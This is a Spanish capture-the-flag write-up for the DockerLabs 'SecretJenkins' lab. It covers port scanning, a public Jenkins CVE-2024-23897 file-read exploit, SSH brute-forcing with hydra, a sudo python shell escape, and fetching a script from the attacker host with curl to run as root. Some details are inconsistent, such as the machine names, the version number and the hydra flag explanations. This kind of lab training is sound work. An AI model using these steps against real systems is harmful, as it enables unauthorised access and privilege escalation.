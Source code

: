 # [FirstHacking](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh secretjenkins.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).


## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>
`-c 1` ⮞ solo lo repite una vez<br>
<br>
Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que esten abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los reultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **8080** y el **22**
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/a1c0f66b-e114-4d9c-8b06-44d197ff9d93)

<br>
<br>

## Página Web (Puerto 8080)

Al ver que está abierto el puerto 8080 nos dirigimos al Navegador Web e introducimos la dirección IP como URL de la siguiente forma : `172.17.0.2:8080` ya que es el puerto 8080 el que aloja este servidor Web. Podemos ver un panel de login para Jenkins: 

<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/cedfd01c-7a4d-45a9-a0b0-dd8b66cf42ac)

<br>

Si probamos ha hacer un fuzzing web ya sea con gobuster o wfuzz. De la siguiente forma `gobuster dir -w /home/kali/WordLists/directory-medium -u http://172.17.0.2:8080/ -x txt,sql,py,js,php,html`, observamos que nos detecta muchos de subdirecctorios.  <br>
`-w` ⮞ ruta al diccionario para usar en el descubrimiento de subdirecctorios <br>
`u` ⮞ dirección donde se aloja el servidor web <br>
`x` ⮞ extensiones de archivos para descubrir en el fuzzins <br>
<br>

Si probamos con el primero de ellos `index` podemos ver que abajo a la derecha la versión del Jenkins usada: 
<br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/7f7eda42-68f8-44bf-ab5e-eb70c4115cb2)

<br>

## Jenkins 2.441
Ahora que conocemos la versión de Jenkins podemos buscar en Internet en búsquedad de exploits para esta versión en especifico de la siguiente forma: `jenkins 2.44.1 github exploit`. Y nos encontramos con el siguiente repositorio de 
[github](https://github.com/Praison001/CVE-2024-23897-Jenkins-Arbitrary-Read-File-Vulnerability). En el encontramos un poco de información sobre la vulnerabilidad a explotar, la cual consiste en leer archivos 
del sistema (LFI)<br>

Nos descargamos el exploit en python con wget de la siguiente forma
`wget https://raw.githubusercontent.com/Praison001/CVE-2024-23897-Jenkins-Arbitrary-Read-File-Vulnerability/main/CVE-2024-23897.py` <br>, le asignamos permisos de ejecución con `chmod +x CVE-2024-23897.py`. Su uso es muy sencillo solo hay que poner la url de la página web con Jenkins y el archivo que queremos leer por lo tanto sería tal que así `python3 CVE-2024-23897.py -u http://172.17.0.2:8080/ -f /etc/passwd`. Y observamos el arhcivo de `/etc/passwd` donde podemos leer algunos usuarios como `bobby y pinguinito`.
<br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/081ea4f9-5afc-45e5-9375-a911c288fb91)

<br>
<br>
## Hydra / Medusa
Una vez conocemos los posibles usuarios los metemos un archivo llamdo `users` aplicamos un ataque de fuerza fruta con hydra con el siguiente comando: `hydra -L users -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`. <br> 
`-h` ⮞ dirección IP de la máquina victima <br>
`-U` ⮞ el archivo con los posibles usuarios es decir (bobby,pinguinito) <br> 
`-P` ⮞ ruta del rockyou. Para descargar el diccionario [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) <br> 
<br>
<br>

Nos reporta lo siguente:  
<br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/13bb5fb7-d465-4fbe-8bde-1d49fe9f9bea)

<br>

## SSH (Puerto 22)
Una vez conocemos el usuario y su contraseña probramos a entrar a la máquina Vacaciones con `ssh bobby@172.17.0.2`, y a continuación nos pedirá la contraseña. *Si te aparece un error como este [aquí](https://desarrolloweb.com/faq/solucionar-remote-host-identification-has-changed-al-hacer-ssh) puedes encontrar la solución.* <br>![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/2128bd5f-33a2-4bb0-ac54-6555c7aa5817)


<br>

## Escala de Privilegios
Comprobamos que hemos podido ingresar a la Máquina Víctima como **bobby** <br>
Si ejecutamos `sudo -l` podemos ver que podemos ejecutar sin proporcionar contraseña con el usuario **pinguinito**.<br>

`-l` ⮞ listar comandos que podemos ejecutar como sudo <br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/784a5bb5-c6e0-4895-8a7e-abd7d12b0c20)

<br>
<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de sudo en python3, y nos encontramos con el siguiente comando `sudo python -c 'import os; os.system("/bin/sh")'`. Y lo ejecutaríamos de lwa siguiente forma `sudo -u pinguinito /usr/bin/python3 -c 'import os; os.system("/bin/bash")'`. <br>
<br>

Y ya seríamos el usuario **pinguinito**, ejecutamos otras vez el `sudo -l` y nos encontramos con lo siguiente: <br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/cedce804-521c-4d03-b0e4-76d927b1c1fc)
<br>

Por lo que nos dirigimos a la ubicación del archivo e intentamos modificarlo para ejecutar una shell con python, nos damos cuenta que no contamos con ningún editor de texto, pero si tenemos curl por lo que desde nuestra máquina de atacante nos creamos un archivo llamado `script.py` que contendría lo siguiente: <br>
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/5b7b63aa-43b6-49b4-ac98-acbc1d40dc20)
<br>

No montamos un servidor HTTP en python en la ubicación de nuestro archivo `script.py` de la siguiente forma `python3 -m http.server 80` para poder compartir dicho archivo con la máquina de **SecretJenkins**. <br>

Ahora en la máquina **SecretJenkins** accedemos al archivo de la siguiente forma `curl http://172.17.0.1/script.py -O script.py`, antes deberíamos haber puesto permiso de escritura en el archivo `scirpt.py` con `chmod +w script.py`. Una vez tenemos dicho archivo hacemos `sudo -u root /usr/bin/python3 /opt/script.py` para ejecutar dicho archivo como root y listo ya somos root:  
<br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/d9f1e7ce-a131-4683-9fdb-fe976dcad531)
<br>
